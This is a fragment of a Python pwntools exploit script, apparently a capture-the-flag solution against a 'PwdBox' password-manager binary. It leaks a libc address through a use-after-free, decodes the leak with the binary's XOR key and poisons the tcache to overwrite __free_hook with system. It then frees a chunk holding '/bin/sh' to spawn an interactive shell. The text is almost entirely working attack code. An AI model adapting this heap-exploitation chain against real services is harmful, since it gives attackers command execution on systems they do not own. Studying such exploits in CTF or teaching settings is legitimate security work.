 ```
    chose(3)
    sla('Which PwdBox You Want Check:\n', str(idx))
def free(idx):
    chose(4)
    sla('Idx you want 2 Delete:\n', str(idx))
def recover(idx):
    chose(5)
    sla('Idx you want 2 Recover:\n', str(idx))
def key(num):
    if num == '\n':
        return '\n'
    result = ''
    for i in [num[x:x+8] for x in range(0, len(num), 8)]:
        result += p64(passwd^u64(i))
    return result

run(0)
fadd(0, 0x628)
p.recvuntil('First Add Done.Thx 4 Use. Save ID:')
passwd = u64(p.recv(8))
add(1, 0x420)
add(2, 0x618)
add(3, 0x420)
add(11, 0x420)
add(12, 0x420)
add(13, 0x420)

free(0)
recover(0)
show(0)
p.recvuntil('Pwd is: ')
libc = ELF(remote_libc_path)
libc.address = str2int(key(p.recv(8)), 'libc', libc.sym['__malloc_hook']+0x10+96)

add(4, 0x638)
free(2)
attack = libc.address+0x1eb280+0x50-0x20
payload = flat(0, attack, 0, attack)
edit(0, payload)
add(5, 0x638)

free(11)
free(12)
free(13)
recover(13)
edit(13, p64(libc.sym['__free_hook']))
add(13, 0x420)
edit(13, '/bin/sh\0')
add(14, 0x420)
edit(14, p64(libc.sym['system']))
free(13)

# debug()
p.interactive()
```
